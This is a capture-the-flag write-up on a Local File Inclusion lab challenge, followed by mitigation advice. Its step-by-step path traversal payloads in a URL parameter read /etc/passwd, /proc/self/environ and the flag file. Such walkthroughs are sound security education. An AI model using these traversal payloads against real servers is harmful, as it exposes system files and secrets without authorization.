




# 🛡️ Enumerate - Local File Inclusion (LFI) – Writeup

## 📖 What is Local File Inclusion (LFI)?

**Local File Inclusion (LFI)** is a type of vulnerability that occurs when a web application includes files on the server dynamically, using user-supplied input without proper validation or sanitization. If not properly secured, this can allow attackers to read arbitrary files on the server.

### 🔥 Common Impact of LFI:
- Reading sensitive files (e.g., `/etc/passwd`, application source code)
- Disclosure of credentials or secrets
- Possible remote code execution in certain setups (e.g., log poisoning, wrappers)

---

## Target: ```http://web.labs.defhawk.com:12000/```


## 🧩 Challenge Summary

The web application provides a search functionality with the following URL structure:

```
http://web.labs.defhawk.com:12000/search?term=flag&sample=Sample1
```



Our goal was to exploit an LFI vulnerability to enumerate system files and retrieve the flag.

---

## 🕵️ Step 1: Testing for LFI

To determine if the `sample` parameter is vulnerable to LFI, we attempted to traverse out of the web directory and access `/etc/passwd`:

```
/search?term=flag&sample=../../../../../etc/passwd
```


✅ **Success** – The contents of `/etc/passwd` were displayed, confirming the LFI vulnerability.

---

## 🔍 Step 2: User Enumeration

From the `/etc/passwd` output, we identified a non-system user:

```
node:x:1000:1000::/home/node:/bin/bash
```

This indicated that the `node` user might own or access the flag.

We attempted to access:

```
/search?term=flag&sample=../../../../../home/node/flag.txt
```

But received no output.

---

## 🧪 Step 3: Reading Environment Variables

We used LFI to read environment variables, which often contain useful path info:

```
/search?term=flag&sample=../../../../../proc/self/environ
```

✅ This returned:

```
HOME=/root
PWD=/usr/src/app
```


This revealed that the working directory for the application was `/usr/src/app`.

---

## 🏁 Step 4: Retrieving the Flag

Using this information, we attempted to access:

```
/search?term=flag&sample=../../../../../usr/src/app/flag.txt
```

✅ **Success** – The flag was retrieved successfully.


---

## 🔐 LFI Mitigation Strategies

To prevent LFI vulnerabilities:

1. **Avoid dynamic file inclusion from user input** wherever possible.
2. **Whitelist allowed filenames or file paths** if dynamic inclusion is required.
3. **Validate and sanitize user input** thoroughly.
4. **Use secure coding libraries or frameworks** that handle file access securely.
5. **Disable directory traversal** by stripping `../` sequences from input.
6. **Apply least privilege** to the web server and application user accounts.
7. **Use web application firewalls (WAFs)** to detect and block LFI patterns.

---

## ✅ Conclusion

By carefully examining application behavior and exploiting path traversal, we were able to:

- Identify a Local File Inclusion vulnerability
- Enumerate system users
- Discover application runtime paths
- Successfully extract the flag

This challenge highlights the importance of **input validation** and **secure coding practices** to defend against file inclusion attacks.
